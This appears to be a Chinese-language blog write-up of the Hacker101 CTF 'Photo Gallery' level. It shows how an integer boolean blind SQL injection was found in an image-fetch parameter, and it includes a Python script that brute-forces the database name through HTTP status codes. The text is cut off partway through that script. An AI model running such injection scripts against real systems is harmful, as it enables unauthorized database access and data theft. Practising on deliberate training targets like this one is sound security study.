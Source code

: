 ```yaml
---
title: "hacker101 第4关&&第5关"
date: 2019-10-19T10:47:35+08:00
showDate: true
draft: false
tags: ["security","hacker101", "ctf"]
categories: ["security"]
---
```


### 第4关 Photo Gallery

#### flag1

这关一进去看起来是一个图片展示的网页，三张图片，两个正常显示，一张500，看了下图片的地址。

```url

/fetch?id=1
/fetch?id=2
/fetch?id=3
```

丢到浏览器访问一下，好像直接是出来二进制数据，全是乱码。一开始我以为是要从图片里面找flag，然后尝试用ue打开，然后从里面找flag的16进制，结果什么也没找到。

然后试了试注入，加了一个`'`，200直接变成500，然后试试`' AND 1=1`，还是500，再试了试`AND 1=1`正常了，看来应该是int型的布尔盲注。

网上查了一下盲注的流程

获取数据库名字 -> 获取表名 -> 获取列名 -> 爆字段

我先手工试了一下

```sql 

AND LENGTH(DATABASE())=6
```

返回正常，说明数据库字符长度为6。然后开始用脚本爆数据库名。

```python
def get_available_ascii():
    A = 65
    a = 97
    zero = 48
    for i in [95] + list(range(a, a+26)) + list(range(A, A+26)) + list(range(zero, zero+10)):
        yield i


def guess_database_length(url):
    payload = " AND LENGTH(DATABASE())={}"
    for i in range(1, 33):
        u = url + payload.format(i)
        print(u)
        r = requests.head(u)
        print(r.status_code)
        if r.status_code == 200:
            return i

def guess_database_name(url, length):
    payload = " AND ASCII(MID(DATABASE(), {}, 1))={}"
    database_name = ""
    for pos in range(1, length+1):
        for s in get_available_ascii():
            u = url + payload.format(pos, s)
            r = requests.head(u)
            print(r.status_code)
            if r.status_code == 200:
```